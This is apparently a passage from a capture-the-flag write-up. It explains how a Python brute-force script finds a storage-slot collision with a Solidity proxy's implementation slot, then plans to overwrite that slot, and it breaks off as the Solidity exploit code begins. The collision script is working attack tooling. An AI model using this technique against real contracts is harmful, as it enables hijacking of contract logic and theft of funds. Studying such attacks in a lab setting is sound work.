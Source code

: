 We can claim any flag ID until 100.000.000. Knowing the formula for the storage layout, we can write a Python script
that bruteforces every flag ID to find a collision for either the implementation slot or the owner slot.

We do not have to find the exact value, as we are not limited for the string length. Any value close to the slot
(but before the slot) is good.

{% prism python %}
from Crypto.Hash import keccak

def get_hash(value):
    k = keccak.new(digest_bits=256)
    k.update(value)
    return k.digest()

CANDIDATES = [int.from_bytes(i, "big") for i in [
    b"implementation_storage",
    b"owner_storage"
]]
CANDIDATES = [
    0x6ec82d6c1818e9fe1ca828d3577e9b2dadd8d4720dd58701606af804c069cfcb,
    0xb6753470eb6d4b1c922b6fc73d6f139c74e8cf70d68951794272d43bed766bd6,
]

min_delta = None

for i in range(100_000_000):
    if i % 1_000_000 == 0:
        print(f"checkpoint: {i}")
        print(min_delta)
    value = i.to_bytes(32) + (6).to_bytes(32)
    hash_value = int.from_bytes(get_hash(get_hash(value)), "big")
    for candidate in CANDIDATES:
        delta = candidate - hash_value
        if delta >= 0 and (min_delta is None or delta < min_delta):
            min_delta = delta
        if delta >= 0 and delta <= 10000:
            print(i, hex(hash_value), hex(candidate))

print(min_delta)
{% endprism %}

For ID 56.488.061 there is a collision for the implementation slot. The collision is 141 slots (1 slot == 32 bytes)
earlier than the slot.

We can overwrite the 141 slots with random data and fill the desired slot with the address of the new implementation.

Exploit code:
{% prism solidity %}
// SPDX-License-Identifier: Unlicensed
pragma solidity ^0.8.20;
